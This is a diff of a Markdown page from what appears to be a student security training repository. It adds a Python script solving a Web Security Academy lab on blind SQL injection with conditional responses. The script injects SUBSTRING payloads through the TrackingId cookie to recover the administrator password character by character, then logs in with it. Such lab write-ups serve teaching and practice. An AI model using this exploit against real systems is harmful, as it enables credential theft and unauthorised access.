

Before and after one commit to toanduneee/Training-KCSC, a Markdown page: Task-1/solveLabByPython.md, the part around the change. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Task-1/solveLabByPython.md
+++ b/Task-1/solveLabByPython.md
@@ -482,3 +482,76 @@ if "Welcome" in response.text or response.status_code == 200:
 else:
     print("Đăng nhập thất bại.")
 ```
+
+# LAB 9: Blind SQL injection with conditional responses
+```python
+import requests
+from bs4 import BeautifulSoup
+
+print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
+url = input("Nhập URL: ").rstrip("/")
+
+response = requests.get(url)
+
+tracking_id = None
+if 'Set-Cookie' in response.headers:
+    cookies_header = response.headers['Set-Cookie']
+    cookie_parts = cookies_header.split(';')
+    for part in cookie_parts:
+        if part.strip().startswith('TrackingId='):
+            tracking_id = part.strip().split('=')[1]
+            break
+
+if tracking_id:
+    print(f"TrackingId: {tracking_id}")
+
+    charset = 'abcdefghijklmnopqrstuvwxyz.0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()}{ ,'
+    passw = ''
+
+    for index in range(1, 21):
+        found = False
+        for c in charset:
+            payload = f"{tracking_id}' AND (SELECT SUBSTRING(password,{index},1) FROM users WHERE username='administrator')='{c}"
+            cookies = {
+                "TrackingId": payload,
+                "session": "70ipyj4mj7XlFojaO9xMj1cbpoiewWAu"
+            }
+            print("Đang test ký tự thứ ",index," :",c,end="\r")
+
+            response2 = requests.get(url, cookies=cookies)
+
+            if "Welcome" in response2.text:
+                passw += c
+                found = True
+                print("\npass:", passw)
+                break
+
+        if not found:
+            print("Not found")
+            break
+
+login_url = f"{url}/login"
+
+session = requests.Session()
+response = session.get(login_url)
+
+if response.status_code != 200:
+    print(f"Không thể truy cập {login_url}, mã lỗi: {response.status_code}")
+    exit()
+
+soup = BeautifulSoup(response.text, "html.parser")
+csrf_token = soup.find("input", {"name": "csrf"})["value"]
+
+data = {
+    "csrf": csrf_token,
+    "username": "administrator",
+    "password": passw
+}
+
+response = session.post(login_url, data=data)
+print(f"Request sent to: {login_url}")
+if (response.status_code == 200):
+    print("Login successful!")
+else:
+    print("Login failed!")
+```
````
